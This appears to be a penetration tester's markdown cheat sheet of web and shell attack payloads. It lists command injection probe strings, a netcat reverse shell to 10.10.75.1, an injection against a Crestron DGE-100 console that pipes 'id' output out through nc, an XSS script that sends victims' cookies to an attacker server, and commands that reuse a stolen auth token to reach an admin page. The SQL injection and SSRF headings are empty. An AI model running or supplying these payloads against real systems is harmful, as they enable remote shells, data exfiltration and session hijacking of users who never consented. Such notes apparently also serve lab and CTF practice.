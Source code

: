 ## Command Injection
### Examples to find command injection vulnerability
	-h
	PARAM; echo Injected 
	echo Injected|
	PARAM | echo Injected 
	PARAM || echo Injected 
	PARAM & echo Injected 
	PARAM && echo Injected
	$(echo Injected)
	\`echo Injected\`
	>(Echo Injected)
	Josh;id #
### Exploitation
nc -nlvvvp 11111
127.0.0.1 && nc -e /bin/sh 10.10.75.1 11111

### Creston DGE-100 attack against DGE-100 Control Console 
nc -nlvp 8080
nc 10.10.10.1 41795 
ping $(echo "$(id)" | /system/xbin/nc 192.168.1.1 8080) 

## SQL injection

## SSRF and IMDS

## XSS 
### CookieStealer
try with hello <hr> <hr> <hr> 
use cookiecutter
	php -S 0.0.0.0:2222
<script>document.location='http://10.10.75.1:2222/?'+document.cookie;</script>
jq "." cookies.log
curl -b authtoken=77ba9cd915c8e359d9733edcfe9c61e5aca92afb "http://www.rookaviary.com/admin.php"
### Or Via Browser in Console 
	document.cookie="authtoken=77ba9cd915c8e359d9733edcfe9c61e5aca92afb"